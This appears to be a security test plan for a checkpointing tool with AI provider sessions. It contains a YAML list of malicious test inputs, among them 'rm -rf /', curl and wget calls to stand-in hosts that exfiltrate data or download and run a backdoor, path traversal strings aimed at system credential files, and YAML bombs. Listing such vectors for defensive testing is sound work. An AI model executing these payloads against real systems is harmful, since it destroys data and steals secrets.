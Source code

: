 - [ ] **File System Security Testing**:
  - Verify checkpoint files written with secure permissions and proper ownership
  - Test behavior with unusual .tmops directory ownership, permissions, and filesystem types
  - Validate sandboxed parsing rejection of dangerous file content including binary data and oversized files
  - Test symlink and hardlink attacks attempting to access files outside project boundaries

**Security Validation Test Vectors:**
```yaml
# Comprehensive test vectors for security validation
malicious_inputs:
  command_injection:
    - "'; rm -rf /; #"
    - "`curl malicious-site.com/exfiltrate`"
    - "$(cat /etc/passwd)"
    - "&& wget evil.com/backdoor.sh -O /tmp/backdoor && bash /tmp/backdoor"
  path_traversal:
    - "../../../etc/passwd"
    - "..\\..\\..\\windows\\system32\\config\\sam"
    - "/proc/self/environ"
    - "\\\\share\\malicious\\file"
  buffer_overflow:
    - "A" * 1000
    - "\x00" * 500
    - "\xFF" * 2048
  encoding_attacks:
    - "%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"
    - "\u002e\u002e\u002f\u002e\u002e\u002f"
    - "\x2e\x2e\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
  environment_injection:
    - "feature-${EVIL_VAR}"
    - "test-$(echo malicious)"
    - "name-`id`"
  yaml_bombs:
    - "million_laughs: &anchor [*anchor,*anchor,*anchor,*anchor,*anchor,*anchor,*anchor,*anchor,*anchor]"
    - "recursive: &rec {key: *rec}"
```

**File System Security Tests:**
- [ ] Verify checkpoint files written with restricted permissions (0600) and proper ownership validation
- [ ] Test behavior when .tmops directory has unusual ownership/permissions across different filesystems
- [ ] Validate sandboxed parsing rejects files with dangerous content including executable binaries and scripts
- [ ] Test symlink and hardlink attacks cannot access files outside project boundary with various bypass techniques
- [ ] Verify temporary file creation and cleanup with secure permissions and automatic purging

**Session Security and Resource Management Tests:**
- [ ] Verify AI provider sessions cannot access other features' data through process isolation validation
- [ ] Test timeout mechanisms prevent runaway processes with resource monitoring and automatic termination
- [ ] Validate session cleanup occurs properly on failures with orphaned resource detection
- [ ] Test resistance to session ID prediction and hijacking through cryptographic validation
- [ ] Verify resource limits prevent denial of service through memory, CPU, and disk exhaustion protection
